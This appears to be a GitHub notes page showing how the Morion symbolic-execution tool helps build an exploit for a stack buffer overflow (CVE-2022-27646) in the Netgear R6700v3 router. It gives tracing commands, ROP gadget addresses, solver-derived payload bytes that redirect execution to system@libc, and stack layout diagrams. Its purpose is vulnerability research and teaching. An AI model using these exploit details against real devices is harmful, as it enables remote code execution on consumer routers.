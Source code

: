 # Exploiting a Stack Buffer Overflow (CVE-2022-27646) on the Netgear R6700v3 with the Help of Symbolic Execution
## Morion Usage
----------------------------------------------------------------------------------------------------
### Tracing
- R6700v3:
    ```
    ./circled.sh
    ```
- Morion:
    ```
    cp circled.init.yaml circled.yaml; gdb-multiarch -q -x circled.gdb
    ```
### Symbolic Execution
- Morion:
    ```
    morion_control_hijacker circled.yaml
    ```
## Exploitation Strategy
----------------------------------------------------------------------------------------------------
- Symbolic execution shows that we have full control over registers `pc` and `r4-r11`.
- Find a code snippet (gadget) that calls the `system@libc` function and allows
  us to set the `r0` register (address of system command to execute).
  ```
  rop --grep "94a0"
  [...CUT...]
  0x0000c9ac : add r0, r4, r0 ; add r1, r4, r1 ; bl #0x9878 ; mov r0, r6 ; bl #0x94a0 ; mov r0, r6 ; bl #0x9854 ; mov r0, r7 ; add sp, sp, #0x10 ; pop {r4, r5, r6, r7, r8, sb, sl, pc}
  [...CUT...]
  ```
  - Candiate: `mov r0, r6; bl #0x94a0;` at address `0xc9b8`
  - Note: The above candidate code snippet is simple to achieve code execution, however
  does not smootly return and will therefore crash the targeted process.
- Generate exploit:
  - Make register `pc` become `0xc9b8` (address of `system@libc` gadget)
  - Make register `r6` become `0xbeffc114+34` (address within targeted stack buffer - constant since no ASLR)
    - Start address of targeted stack buffer: `0xbeffc114`
    - First 34 bytes (an MD5 sum plus `b"\n\x00"`) of targeted stack buffer are not symbolic (i.e. we do not control)
  ```
  from pprint import pprint
  ast = ctx.getAstContext()
  pc = ctx.getRegisterAst(ctx.registers.pc)
  r6 = ctx.getRegisterAst(ctx.registers.r6)
  pprint(ctx.getModel(ast.land([pc == 0xc9b8, r6 == 0xbeffc114+34])))
  {
    368: 0xbeffc284 (MODEL:fgets@libc:s+368):8 = 0x36,
    369: 0xbeffc285 (MODEL:fgets@libc:s+369):8 = 0xc1,
    370: 0xbeffc286 (MODEL:fgets@libc:s+370):8 = 0xff,
    371: 0xbeffc287 (MODEL:fgets@libc:s+371):8 = 0xbe,
    392: 0xbeffc29c (MODEL:fgets@libc:s+392):8 = 0xb8,
    393: 0xbeffc29d (MODEL:fgets@libc:s+393):8 = 0xc9,
    394: 0xbeffc29e (MODEL:fgets@libc:s+394):8 = 0x0,
    395: 0xbeffc29f (MODEL:fgets@libc:s+395):8 = 0x0
  }
  ```
  TODO:
  ```
  pprint(ctx.getModel(r4 == 0xbeffc114+34))
  {
      360: 0xbeffc27c (MODEL:fgets@libc:s+360):8 = 0x36,
      361: 0xbeffc27d (MODEL:fgets@libc:s+361):8 = 0xc1,
      362: 0xbeffc27e (MODEL:fgets@libc:s+362):8 = 0xff,
      363: 0xbeffc27f (MODEL:fgets@libc:s+363):8 = 0xbe
  }
  ```
- Put command string at adddress `0xbeffc114+34`
### Return Oriented Programming (ROP) Chains


## Benefits of Using Symbolic Execution
----------------------------------------------------------------------------------------------------
### Pros
- We learn about the vulnerability capabilities
  - What registers and memory areas we control and how
### Cons
- Semantic function modelling is hard, but required (here e.g. for `sscanf`)

## To Do
----------------------------------------------------------------------------------------------------
- ROP chain that does not crash
    0xb6e010c8 : mov r4, r3 ; mov r0, r4 ; pop {r4, pc}
    ...

- 0x00009988 : pop {r3, pc}
- 0x00009984 : blx r3 ; pop {r3, pc}
- 0x0000c668 : mov r0, r4 ; pop {r4, r5, r6, pc}


```
from pprint import pprint
ast = ctx.getAstContext()
pc = ctx.getRegisterAst(ctx.registers.pc)
r4 = ctx.getRegisterAst(ctx.registers.r4)
pprint(ctx.getModel(ast.land([pc == 0xc668, r4 == 0xbeffc136])))
{
    360: 0xbeffc27c (MODEL:fgets@libc:s+360):8 = 0x36,
    361: 0xbeffc27d (MODEL:fgets@libc:s+361):8 = 0xc1,
    362: 0xbeffc27e (MODEL:fgets@libc:s+362):8 = 0xff,
    363: 0xbeffc27f (MODEL:fgets@libc:s+363):8 = 0xbe,
    392: 0xbeffc29c (MODEL:fgets@libc:s+392):8 = 0x68,
    393: 0xbeffc29d (MODEL:fgets@libc:s+393):8 = 0xc6
}
```

----------------------------------------------------------------------------------------------------
fgets:
+- beff c114: 41    33
|  ...
|  beff c133: 41    66
|  beff c134: 41    0a
|  beff c135: 41    00
|  beff c136: 20    20
|  beff c137: 42    42
|  beff c138:
|  beff c139:
|  beff c13a:
|  beff c13b:
|  ...
|  beff c2be: 42    42
|  beff c2bf: 64    64
|  beff c2c0: 17    17
|  beff c2c1: 01    01
|  beff c3c2: 00    00
|  ...
+- beff c513: 00    00

sscanf:
+- beff c614: 42
|  ...
+- beff c713: 42
+- beff c714: 42
|  ...
|  beff c735: 42
|  beff c736: 42
|  beff c737: 42
|  ...
|  beff c79b: 42
|  beff c79c: 64
|  beff c79d: 17
|  beff c79e: 01
|  beff c79f: 00
|  beff c7a0: ??
|  ...
+- beff c814: ??

----------------------------------------------------------------------------------------------------
0x00cf24: pop {r4, r5, r6, r7, r8, r9, r10, r11, pc}
0x011764: ldmib r5! {r0, r2, r5, r, r8, r9, fp, ip, lr, pc}

            +------------------+
beff c87c:  | (r4)             | <-- fp
            +------------------+
            | (r5)             |
            +------------------+
            | (r6)             |
            +------------------+
            | (r7)             |
            +------------------+
            | (r8)             |
            +------------------+
            | (r9)             |
            +------------------+
            | (r10)            |
            +------------------+
            | (r11)            |
            +------------------+
            | (pc)  0001 1764  |
            +------------------+
            |                  | <-- sp
            +------------------+

- [ ] Triton support for instruction `ldmdb r11, {r4, r5, r6, r7, r8, r9, r10, r11, sp, pc}`
  - [X] Update Triton installation
  - [X] Create a sample program with the unsupported instruction
  - [X] Open a Triton Git issue;
- [ ] Document exploit
  - [X] Draw memory layout
  - [X] Draw ROP chain
  - [X] Reimplement and test constraints based on figure
  - [X] Push figures to Git repository